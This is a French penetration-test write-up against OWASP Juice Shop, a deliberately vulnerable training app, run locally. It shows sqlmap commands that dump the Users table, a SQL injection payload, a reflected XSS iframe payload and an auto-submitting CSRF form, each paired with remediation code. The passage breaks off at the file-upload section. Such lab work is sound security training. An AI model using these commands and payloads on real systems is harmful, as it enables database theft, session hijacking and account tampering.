# 🧃 Audit de Sécurité — OWASP Juice Shop

> [!info] Informations générales
> **Auteur :** Mohamed EL AAMRANI
> **Date :** 30 Mars 2026
> **Environnement :** Kali Linux — `localhost:3000`
> **Version cible :** Juice Shop v2.1.0-dev
> **Outils :** ffuf · EyeWitness · OWASP ZAP · sqlmap · Burp Suite
> **Classification :** Confidentiel — Usage pédagogique

---

## 📊 Tableau récapitulatif des vulnérabilités

| # | Vulnérabilité | Catégorie OWASP | Sévérité | Endpoint |
|---|---|---|---|---|
| 1 | Injection SQL (SQLi) | A03 – Injection | 🔴 Critique | `/rest/products/search?q=` |
| 2 | XSS Réfléchi | A03 – XSS | 🟠 Élevé | `/#/search?q=` |
| 3 | CSRF | A01 – Broken Access Control | 🟠 Élevé | `POST /profile` |
| 4 | Upload — Type MIME non validé | A05 – Misconfiguration | 🟡 Moyen | `POST /file-upload` |
| 5 | Upload — Taille non validée côté serveur | A05 – Misconfiguration | 🟡 Moyen | `POST /file-upload` |

---

## 1. Introduction

### 1.1 L'OWASP et Juice Shop

L'**OWASP** (Open Web Application Security Project) est une organisation internationale à but non lucratif dédiée à l'amélioration de la sécurité des logiciels. Sa publication phare, l'**OWASP Top 10**, recense les dix risques les plus critiques pour les applications web.

**OWASP Juice Shop** est une application web volontairement vulnérable, conçue pour la formation en cybersécurité. Elle simule une boutique en ligne complète avec plus de 100 défis de sécurité couvrant l'intégralité du OWASP Top 10. Son architecture **Node.js / Angular / SQLite** en fait un environnement réaliste pour pratiquer la détection, l'exploitation et la remédiation de vulnérabilités web dans un cadre légal et contrôlé.

### 1.2 Objectifs de l'audit

- [x] Déployer Juice Shop en environnement local sous Kali Linux
- [x] Conduire une phase d'énumération complète (répertoires, interfaces, API)
- [x] Scanner l'application avec OWASP ZAP
- [x] Exploiter au moins 5 vulnérabilités avec preuve de concept
- [x] Documenter les risques associés
- [x] Proposer des correctifs techniques comparatifs (client vs serveur)

---

## 2. Phase 1 — Mise en place de l'environnement

### 2.1 Installation de Juice Shop

L'application a été déployée via **npm** directement sur Kali Linux.

```bash
sudo apt install nodejs npm -y
git clone https://github.com/juice-shop/juice-shop.git
cd juice-shop && npm install
npm start
```

>  Application démarrée avec succès
> - URL : `http://localhost:3000`
> - Version détectée : **Juice Shop v2.1.0-dev**
> - SGBD : **SQLite** (identifié lors du scan sqlmap)

### 2.2 Interfaces identifiées

| Interface | URL | Rôle / Intérêt sécurité |
|---|---|---|
| Page principale | `/#/` | Catalogue — point d'entrée |
| Connexion | `/#/login` | Formulaire login → cible SQLi |
| Inscription | `/#/register` | Création de compte |
| Mot de passe oublié | `/#/forgot-password` | Réinitialisation via question secrète |
| API REST | `/api/` & `/rest/` | Endpoints backend — cibles principales |

#### Page principale — `http://localhost:3000/#/`



#### Interface de connexion — `http://localhost:3000/#/login`



#### Interface d'inscription — `http://localhost:3000/#/register`



#### Mot de passe oublié — `http://localhost:3000/#/forgot-password`


---

## 3. Phase 2 — Énumération

### 3.1 Découverte de répertoires — ffuf

L'outil **ffuf** a été utilisé pour effectuer une attaque par force brute sur les chemins de l'application, en s'appuyant sur la wordlist SecLists.

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
     -u http://localhost:3000/FUZZ -ac -c -of csv -o results.csv
```


#### Résultats notables

| Chemin | Statut | Taille | Intérêt sécurité |
|---|---|---|---|
| `/api` | 500 | 3 347 B | API exposée — erreur serveur visible |
| `/rest` | 500 | 3 349 B | API REST interne — données sensibles |
| `/ftp` | 200 | 11 308 B | Répertoire FTP public — fichiers accessibles |
| `/metrics` | 200 | 25 002 B | Métriques sans auth — info-disclosure |
| `/Administration` | 500 | 1 030 B | Interface admin — accès potentiel |
| `/promotion` | 200 | 6 459 B | Vidéo promotionnelle exposée |
| `/profile` | 500 | 1 030 B | Endpoint profil — vulnérable CSRF |

### 3.2 Capture d'interfaces — EyeWitness

Les URLs découvertes par ffuf ont été exportées puis soumises à **EyeWitness**, qui effectue automatiquement des captures d'écran de chaque endpoint et les consolide dans un rapport HTML.

```bash
cat results.csv | awk -F, 'NR>1 {print $2}' > urls.txt
eyewitness --web -f urls.txt --no-prompt
```



> [!note] Résultats EyeWitness
> - **92 URLs** traitées — rapport HTML généré : `report.html`
> - Interfaces actives confirmées visuellement sans authentification
> - Endpoints `/api`, `/ftp`, `/metrics` et `/Administration` accessibles directement

---

## 4. Phase 3 — Scan automatisé OWASP ZAP

OWASP ZAP a été configuré en proxy interceptant sur `localhost:8081`, avec Firefox comme navigateur cible. Le scan actif complet (spider traditionnel + AJAX spider) a été lancé.



| Paramètre | Valeur |
|---|---|
| URL cible | `http://localhost:3000` |
| Spider traditionnel | Activé |
| AJAX Spider | Firefox (mode moderne) |
| Proxy ZAP | `localhost:8081` |
| Requêtes analysées | **11 639 requêtes HTTP** |
| Nouvelles alertes | **145 alertes détectées** |
| Rapport généré | `2026-03-30-ZAP-Report-.html` |

>  Alertes ZAP — catégories principales détectées
> - Injection SQL — paramètres non filtrés dans `/rest/`
> - XSS réfléchi — champ de recherche sans encodage
> - CSRF — absence de token anti-CSRF sur les formulaires POST
> - Headers de sécurité manquants — X-Frame-Options, CSP, HSTS
> - Exposition d'informations — stack traces, versions de modules

---

## 5. Phase 3 — Exploitation des vulnérabilités

> [!danger] Avertissement légal
> L'exploitation suivante a été conduite dans un cadre légal, sur un environnement local isolé, à des fins exclusivement pédagogiques.

---

### 5.1 🔴 Injection SQL (SQLi)

| Attribut | Valeur |
|---|---|
| **Sévérité** | 🔴 Critique |
| **OWASP** | A03:2021 – Injection |
| **Endpoint** | `GET /rest/products/search?q=` |
| **Paramètre** | `q` |

#### Description

Le paramètre `q` du endpoint de recherche `/rest/products/search` n'est pas assaini côté serveur avant son intégration dans la requête SQL. L'application construit la requête par **concaténation de chaînes**, permettant l'injection de commandes SQL arbitraires.

#### Exploitation — Preuve de concept

**Étape 1 — Détection et identification du type d'injection**

```bash
sqlmap -u "http://localhost:3000/rest/products/search?q=apple" \
       -p q --level=5 --risk=3 --batch --random-agent
```



>  sqlmap — Injection confirmée
> - Paramètre injectable : `q` (GET)
> - Techniques : **boolean-based blind**, **time-based blind**
> - Payload : `q=apple%' AND 9156=9156 AND 'oZfUN'='oZfUN`
> - **SGBD identifié : SQLite > 2.0**
> - 285 requêtes HTTP générées

**Étape 2 — Extraction de la liste des tables (21 tables)**

```bash
sqlmap -u "http://localhost:3000/rest/products/search?q=apple" \
       -p q --tables --batch
```



Tables extraites : `Users`, `Products`, `BasketItems`, `Wallets`, `Cards`, `SecurityAnswers`, `SecurityQuestions`, `Feedbacks`, `Complaints`, `Challenges`, `Deliveries`, `Addresses`, `Recycles`, `Memories`, `PrivacyRequests`, `Quantities`, `Hints`, `ImageCaptchas`, `Captchas`, `sqlite_sequence`

**Étape 3 — Structure de la table `Users`**

```bash
sqlmap -u "http://localhost:3000/rest/products/search?q=apple" \
       -p q -T Users --columns --batch
```



| Colonne | Type | Sensibilité |
|---|---|---|
| `email` | VARCHAR | ⚠️ PII — données personnelles |
| `password` | VARCHAR | 🔴 Hash MD5 — faiblement protégé |
| `role` | VARCHAR | 🔴 Discrimination admin/customer |
| `totpSecret` | VARCHAR | 🔴 Secret TOTP — 2FA |
| `deluxeToken` | VARCHAR | ⚠️ Token d'accès premium |
| `lastLoginIp` | VARCHAR | ⚠️ Adresse IP dernière connexion |

**Étape 4 — Dump complet de la table Users**



22 enregistrements extraits incluant l'administrateur (`admin@juice-sh.op`), les mots de passe hashés MD5 et les tokens d'authentification.

#### Impact et risques

- 🔴 Exfiltration totale de la base de données
- 🔴 Compromission du compte administrateur
- 🔴 Violation RGPD — exposition de données personnelles
- 🔴 Cassage des hashes MD5 → mots de passe en clair

#### Remédiation

```javascript
// ❌ Vulnérable — concaténation directe
db.query(`SELECT * FROM Products WHERE name LIKE '%${userInput}%'`)

// ✅ Correct — requête préparée
db.query('SELECT * FROM Products WHERE name LIKE ?', [`%${userInput}%`])
```

>  Validation côté client = aucune protection
> Toute validation JavaScript peut être contournée via les DevTools ou Burp Suite. Seules les **requêtes préparées côté serveur** protègent contre les injections SQL.

---

### 5.2 🟠 Cross-Site Scripting (XSS) Réfléchi

| Attribut | Valeur |
|---|---|
| **Sévérité** | 🟠 Élevé |
| **OWASP** | A03:2021 – XSS |
| **Endpoint** | `GET /#/search?q=` |
| **Paramètre** | `q` |

#### Description

La barre de recherche n'encode pas les données utilisateur avant de les réinjecter dans le DOM Angular. Il est possible d'injecter un élément HTML arbitraire qui s'exécute dans le navigateur de la victime.

#### Exploitation — Preuve de concept

**Payload URL-encodé injecté dans `q` :**

```
http://localhost:3000/#/search?q=%3Ciframe%20src%3D%22javascript:alert(`Mohamed%20EL%20AAMRANI%20found%20XSS`)%22%3E
```

**Payload décodé :**

```html
<iframe src="javascript:alert(`Mohamed EL AAMRANI found XSS`)">
```



>  XSS confirmé
> Boîte de dialogue JavaScript affichée : **"Mohamed EL AAMRANI found XSS"**
> Code exécuté dans le contexte de `localhost:3000`

#### Impact et risques

- 🟠 Vol de cookies de session (`document.cookie`) → usurpation d'identité
- 🟠 Redirection vers un site de phishing
- 🟠 Keylogging — capture des frappes clavier
- 🟠 Injection de formulaires frauduleux dans la page légitime

#### Remédiation

```javascript
// ✅ Angular : utiliser le binding natif (jamais innerHTML)
{{ userInput }}  // encodage automatique

// ✅ Header CSP
Content-Security-Policy: default-src 'self'; script-src 'self'; frame-src 'none'
```

---

### 5.3 🟠 Cross-Site Request Forgery (CSRF)

| Attribut | Valeur |
|---|---|
| **Sévérité** | 🟠 Élevé |
| **OWASP** | A01:2021 – Broken Access Control |
| **Endpoint** | `POST /profile` |

#### Description

L'endpoint `POST /profile` ne valide aucun token anti-CSRF. Une requête forgée depuis n'importe quel domaine tiers peut modifier le profil d'un utilisateur authentifié à son insu.

#### Exploitation — Preuve de concept

**Étape 1 — Requête légitime capturée dans Burp Suite**



**Étape 2 — Page HTML malveillante hébergée sur un domaine externe**

```html
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="CSRF" />
</form>
<script>document.forms[0].submit();</script>
```



**Étape 3 — Requête forgée envoyée automatiquement**



**Étape 4 — Résultat côté serveur**


>  CSRF confirmé
> Challenge résolu : **"Successfully solved a challenge: CSRF (Change the name of a user by performing CSRF from another origin)"**

#### Déroulement de l'attaque

1. La victime est connectée à Juice Shop (cookie de session actif)
2. L'attaquant héberge la page HTML malveillante sur un domaine externe
3. La victime clique sur le lien partagé
4. Le formulaire se soumet automatiquement — le navigateur inclut les cookies
5. Le serveur traite la requête comme légitime

#### Impact et risques

- 🟠 Modification silencieuse du profil utilisateur
- 🟠 Extension possible : vider un panier, valider une commande, changer un mot de passe
- 🟠 Aucun indicateur visuel d'alerte pour la victime

#### Remédiation

```javascript
// ✅ Middleware csurf (Node.js/Express)
const csrf = require('csurf');
app.use(csrf({ cookie: { sameSite: 'Strict', httpOnly: true } }));
res.cookie('XSRF-TOKEN', req.csrfToken());

// ✅ Cookie de session sécurisé
Set-Cookie: session=...; SameSite=Strict; Secure; HttpOnly
```

---

### 5.4 🟡 Upload de fichier — Contournement du type MIME

| Attribut | Valeur |
|---|---|
| **Sévérité** | 🟡 Moyen |
| **OWASP** | A05:2021 – Security Misconfiguration |
| **Endpoint** | `POST /file-upload` |

#### Description

La fonctionnalité d'upload de photo de profil valide le type de fichier **uniquement côté client**. En interceptant la requête HTTP avec Burp Suite et en modifiant le header `Content-Type`, il est possible de téléverser des fichiers arbitraires (PDF, binaires, scripts).

#### Exploitation — Preuve de concept

